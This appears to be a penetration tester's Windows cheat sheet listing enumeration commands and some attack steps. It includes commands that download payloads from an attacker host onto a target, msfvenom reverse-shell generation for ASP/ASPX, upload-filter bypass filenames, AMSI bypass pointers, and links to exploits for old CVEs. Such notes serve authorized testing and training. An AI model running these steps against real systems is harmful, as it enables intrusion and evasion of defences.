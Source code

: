 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
whoami /groups
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<attacker ip>/<file>" "C:\Users\<User Account>\Desktop\<file>"
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
Powershell Invoke-WebRequest -OutFile C:\Users\<User Account>\Desktop\<file> -Uri http://<attacker ip>/<file>
```

checking if Windows Defender is active

```powershell
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```

get all drives

```powershell
# powershell
gdr -PSProvider 'FileSystem'
```

```cmd
REM cmd
wmic logicaldisk get deviceid, volumename, description
```

SMB

```shell
nmap -p 445 --script vuln <target ip>
```

Kali provides [Windows executables](https://www.kali.org/tools/windows-binaries/)

```shell
# /usr/share/windows-resources/binaries
find / -name whoami.exe 2>/dev/null
windows-binaries -h
```

UNZIP

```cmd
REM Windows 10 build 17063 or later
tar -xf <zip file>
```

Bypass AMSI Powershell (PEN-300)

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

```
1. one liners to multiple lines
2. hex encoding
```

list firewall rules

```cmd
Netsh advfirewall firewall show rule dir=in name=all
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

copy file from net share folder

```powershell
Copy-Item -path "\\<target ip or hostname>\<folder($)>" -destination .\ -Recurse
```

check running services

```
Get-Service | where {$_.Status -eq "Running"}
```

find specific files

```cmd
REM command prompt
dir /s C:\Folder\*.txt
```

```powershell
# powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Filter "*.txt"
```

[registry query](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)

```cmd
reg query HKEY_LOCAL_MACHINE\Software /f Python
```

[Tasklist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist)

```
tasklist /v
```

Windows Library Files

```
https://wikileaks.org/ciav7p1/cms/page_13763381.html
https://blog.f-secure.com/abusing-windows-library-files-for-persistence/
```

#### Old Vulnerability

MS08_067 [tool 1](https://github.com/andyacer/ms08_067) [tool 2](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```shell
# check os version
nmap -p <target ports> --script /usr/share/nmap/scripts/smb-os-discovery <target ip>
```

CVE-2019-0708

```
https://github.com/robertdavidgraham/rdpscan
```

CVE-2017-7269

Microsoft Windows Server 2003 IIS 6.0 WebDAV

```
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```

CVE-2014-6271

```
https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
```

#### Resources

```
https://ss64.com/
```